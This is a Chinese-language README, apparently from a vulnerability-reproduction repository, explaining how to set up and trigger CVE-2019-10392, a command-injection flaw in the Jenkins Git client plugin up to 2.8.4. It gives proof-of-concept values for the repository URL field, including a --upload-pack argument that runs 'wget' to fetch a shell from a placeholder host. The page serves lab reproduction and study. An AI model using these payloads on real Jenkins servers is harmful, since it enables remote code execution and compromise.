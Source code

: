 ## 描述

jenkins最近又出来一个rce，是关于git-client插件的，该插件是默认安装的，然而这个漏洞利用需要高权限，所以影响也就打了折扣。

### 影响范围：

Git client Plugin <= 2.8.4

## 复现
在本地复现搭建jenkins，安装要选插件安装，把git去掉，否则会直接安装最新版本的git插件。`git-client.hpi`是2.8.4的插件，手动安装即可。

新建一个任务，漏洞位于源码管理处，且该漏洞可回显:

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image.jpg)

poc:
命令是通过ProcessBuilder下执行的

window下：--upload-pack=`id`

linux下： --upload-pack=wget http://xxxx/shell

macos下弹计算器（我没试过，看奇安信里分析里给出的）: --upload-pack=/Applications/Calculator.app/Contents/MacOS/Calculator 

本项目里的`data.txt`为windows 2008下的请求包


## 注意

如果是在windows下复现，如果出现失败，可能是git没有配置环境，可按下图配置

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image2.jpg)

## 总结

已经有分析了，指路：
https://mp.weixin.qq.com/s/7yUFVj0y7PYE3ZszEszjHw

